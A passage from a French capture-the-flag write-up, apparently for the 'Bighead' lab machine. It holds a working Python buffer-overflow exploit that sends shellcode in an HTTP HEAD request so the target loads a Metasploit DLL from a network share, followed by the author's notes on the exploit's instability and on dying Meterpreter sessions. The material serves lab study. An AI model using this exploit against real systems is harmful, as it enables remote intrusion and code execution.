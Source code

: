 ```python
import socket
import struct
from binascii import hexlify
from time import sleep

TARGET = '127.0.0.1'
PORT = 80

jmp_eax = 0x625012F2  # JMP EAX from bHeadSvr.dll
sock = socket.socket()
sock.connect((TARGET, PORT))

print("Sending first stage...")
shellcode = "/90"          # change to /CC for debuging
shellcode += "EB25"        # jmp +39 (jump to relative call)
shellcode += "58"          # pop eax (stack address)
shellcode += "83ec40"      # sub esp, 64
shellcode += "89e5"        # mov ebp, esp
shellcode += "89ea"        # mov edx, ebp
shellcode += "89ee"        # mov esi, ebp
shellcode += "50"          # push eax
shellcode += "B8AA681340"  # mov eax, 0x401368aa
shellcode += "C1E808"      # shr eax, 8 (eax = LoadLibraryA)
shellcode += "FFE0"        # jmp eax
shellcode += "1" * (73 - len(shellcode))

buff2 = "E8D6FFFFFF" # call instruction après le jmp
buff2 += hexlify(b"\\\\vboxsrv\\shared\\msf.dll").decode()

buff = "HEAD " + shellcode + hexlify(struct.pack("I", jmp_eax)).decode() + buff2
buff += " HTTP/1.1\r\nHost: dev.bighead.htb\r\n\r\n"
print("buff length is", len(buff))

sock.send(buff.encode())
sleep(1)
sock.close()
```

Le problème que j'ai eu avec cette technique est quelle était extrêmement instable.  

Premièrement, ça fonctionne uniquement à la première exécution. Sans doute parce qu'une fois la DLL chargée dans la mémoire du process le système refuse de la remapper (?) mais le souci persistait même en renommant la DLL.  

Ensuite j'ai eu des souci de violation d'accès lors de l'écriture de l'exploit car *LoadLibraryA* tentait de lire une adresse mémoire sur la stack. C'est fonction n'est pourtant sensée recevoir qu'un seul argument...  

J'ai tenté de changer les registres utilisés dans le shellcode, bouger *esp/ebp* sans obtenir d'excellents résultats.  

Pour terminer, lors de l'utilisation de l'exploit sur le CTF ma session *Meterpreter* était tuée à peine ouverte et aussitôt relancée et tuée... Je me faisait flooder de sessions *Meterpreter* morte-nées.  
